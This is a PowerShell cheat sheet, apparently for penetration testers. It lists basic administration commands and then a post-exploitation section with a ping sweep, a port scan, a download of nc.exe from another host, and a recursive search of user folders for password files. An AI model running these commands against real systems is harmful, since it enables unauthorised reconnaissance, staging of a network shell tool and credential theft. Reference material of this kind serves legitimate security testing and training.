**Get present directory (pwd, gl):**
```powershell
PS C:\> Get-Location
```

**Get a process listing (ps, gps):**

```powershell
PS C:\> Get-Process
```

**Get a service listing:**
```powershell
PS C:\> Get-Service
```

**Formatting output of a command (Format-List):**

```powershell
PS C:\> ls | Format-List –property name
```

**Paginating output:**
```powershell
PS C:\> ls –r | Out-Host -paging
```
**Get the SHA1 hash of a file:**

```powershell
PS C:\> Get-FileHash -Algorithm SHA1 file.txt
```

**Exporting output to CSV:**
```powershell
PS C:\> Get-Process | Export-Csv procs.csv
```

PowerShell for Pen-Tester Post-Exploitation
---------

**Conduct a ping sweep:**
```powershell
PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl}
```

**Conduct a port scan:**
```powershell
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null
```

**Fetch a file via HTTP (wget in PowerShell):**
```powershell
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe")
```
**Find all files with a particular name:**
```powershell
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt
```

**Get a listing of all installed Microsoft Hotfixes:**
```powershell
PS C:\> Get-HotFix
```
